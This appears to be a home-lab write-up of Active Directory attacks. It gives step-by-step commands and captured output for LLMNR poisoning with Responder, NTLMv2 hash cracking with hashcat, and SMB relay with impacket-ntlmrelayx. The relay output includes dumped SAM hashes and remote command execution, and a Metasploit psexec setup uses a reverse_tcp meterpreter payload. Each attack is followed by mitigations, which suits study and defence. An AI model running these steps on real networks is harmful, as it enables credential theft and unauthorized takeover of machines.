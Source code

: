 Setup win2022 server: 192.168.64.138   
Setup Peterparker: \\192.168.64.140  
Setup Frankcastle: 192.168.64.139  
Kali: \\192.168.64.129/24

## 🚩 LLMNR Poisoning - Link Local Multicast resolution

**Requirements:**  
* LLMNR attack can be performed if the LLMNR/NBT-NS is enabled and the attacker machine is in the same network as the target.
* LLMNR attacks use the Responder tool which captures credentials that are broadcasted over the network when a user seek connection to a another service / resource that does not exists or is poorly configured. Through these vulnerabilities, Responder spoofs the request and responds by stating they know the service or resource. Requesting the victims NTLM hash.  

![image](https://github.com/user-attachments/assets/fc6902c4-acf7-4787-b2c8-607a7cd2900b)  

Commonly used tooling for LLMNR Poisoning attacks:  
Responder, Impacket, MITM6

### Capturing Hashes with Responder

Kali responder IP: 192.168.64.129/24

            sudo responder -I eth0 -dwv

![image](https://github.com/user-attachments/assets/8de5ddb4-8956-4b4b-98f6-c2df1cb6ac99)  

Ensure details such as nic, responder ip, is all correct. Once responder is on the network and listening for traffic, an example of captured NTLMv2 hashes can be seen like this:

![image](https://github.com/user-attachments/assets/f4e41ca4-5d90-4b66-b181-399742def06f)

### Cracking NTLM hashes  

            root@kali:/home/kali# hashcat -m 5600 ntlm.txt /usr/share/wordlists/rockyou.txt --force

![image](https://github.com/user-attachments/assets/7d5a47ce-1ef8-4cb6-9e7d-b8785a930da5)

Hash cracked.

## 🔵 LLMNR Poisoning Mitigation  

1. Disable LLMNR / NBT-NS (NetBIOS) Broadcasts.  
2. Implement NAC on the internal network.
3. Have strong password requirements for end users espicially admin or service accounts. This will also add to defense in depth.

## 🚩SMB Relay Attack - Service Message Block

SMB (Server Message Block) is a protocol used for file shares, printers, and other resources on a network. This common protocol can be abused when an attacker on the same internal network (domain and or subdomain) is actively attempting to capture the NTLM hashes transmitted over the network. Which is then maliciously relayed to a service / server, granting access since the hash is authenticated.

**Requirements:**  
* SMB signing must be disabled or not enforced on the target machine.  
* Target machine should be admin, domain admin or service accounts for maximum effect.
* Responder config files /etc/responsder/Responder.conf must have smb and https turned off, so that captured hashes are not stored but are instead 'relayed'.

![image](https://github.com/user-attachments/assets/d8f8f9fc-6393-4e74-877a-9a0a0731cc97)  

🔴 The reason why these are turned off is to prevent the authentication resposne from being captured, but rather we are attempting to 'relay' them to our targets lists.


1. Firstly identify hosts without SMB signing. 

            nmap --script=smb2-security-mode.nse -p445 10.0.0.0/24 -Pn 
      
![image](https://github.com/user-attachments/assets/52f6904d-f256-467c-9b40-414b011f57c2)

2. Once we have discovered our targets (have SMB signing disabled and not required). Create a targets.txt detailing the targets.

            nano target.txt > add target ips into file

3. Start responsder with the new edited config files.

            responder -I eth0 -dPv

5. Start ntlmrelayx.py or impacket-ntlmrelax.

            impacket-ntlmrelax -tf targets.txt -smb2support

![image](https://github.com/user-attachments/assets/ac597d69-e6d9-4da3-affa-ca352ce13850)  

            [*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
            Administrator:500:aad3b435b51404eeaad3b435b51404ee:fbdcd5041c96ddbd82224270b57f11fc:::
            Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
            DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
            WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:2709e4a8da75eb3a5c72700995058b08:::
            peterparker:1001:aad3b435b51404eeaad3b435b51404ee:fbdcd5041c96ddbd82224270b57f11fc:::
            [*] Done dumping SAM hashes for host: 192.168.64.140
            [*] Stopping service RemoteRegistry
            [*] Restoring the disabled state for service RemoteRegistry
Above figure presents a SAM Dump  

We have succesfully captured the NTLM hash from peterparker with Responder relaying the SAM authentication back to the server using impacket-ntlmrelayx. 

6. Gaining interactive shell with impacket.

            impacket-ntlmrelayx -tf targets.txt -smb2support -i  

![image](https://github.com/user-attachments/assets/dff22fbf-f7e3-4415-bb76-c1f9a7c42541)

Once interactive shell has been obtained as seen above, we can now bind this with netcat via the SMB shell TCP on 127.0.0.1:11000  
Once netcat has been binded to list all the available arguments that is available to be used in this specific shell environment.  

![image](https://github.com/user-attachments/assets/5ea73547-920d-4d1d-8ce7-085dadedbfc1)

7. Using command switch with impacket. 

            impacket-ntlmrelayx -tf targets.txt -smb2support -c "whoami"

![image](https://github.com/user-attachments/assets/0bda36ba-980a-444a-ad6d-de4fa828981a)  

SMB relay attack with -c 'whoami' flag successful

## 🔵 SMB Relay attack Mitigations

1. Enable SMB Signing on all devices.
2. Accounting Tiering (limiting specific accounts to defined tasks).
3. Local admin restriction.
4. Disable NTLM authentication (completely stops the attack however if Kerberos fails, it cannot default to NTLM authentication).

## 🚩 Gaining Shell Access

### 🔴 Metasploit module using psexec  
In metasploit we have chosen the windows/smb/psexec module  
![image](https://github.com/user-attachments/assets/5a95bb0b-2ef1-4559-9047-239d20571096)  

and set payload to x64 compatible as most* modern machines run x64.

            set payload windows/x64/meterpreter/reverse_tcp

configure the options with the information gathered in the LLMNR attack.

![image](https://github.com/user-attachments/assets/24e94831-edbe-47ec-b388-2287fe5ac5ba)

After trying to run, the exploit was suggested to be succesful however no session was created.  
Tried to debug this issue by setting payload to non x64 version, setting exploit targets to different settings, changing LPORT to 5555, setting up metasploit multi handler for connections and also nc -nlvp 4444. With no success.

![image](https://github.com/user-attachments/assets/e0567cb8-f6f3-4060-bcb4-81e7ad6cf4b6)  

Not a big deal... we can try to manually exploit it via a hash attack... (My preferred way anyways ;]) 

### 🔴 Manual mode using psexec.py  




### Other Remote command execution tools in Windows environments to attempt if one does not work.

1. Psexec
2. Wmiexec
3. SMBexec

------- 
**Reference:**  

https://medium.com/@tayyabanoor1201/tcm-security-smb-relay-attack-writeup-dfc7cc113bb0

https://medium.com/@rymak/smb-relay-attack-19192e1d158c
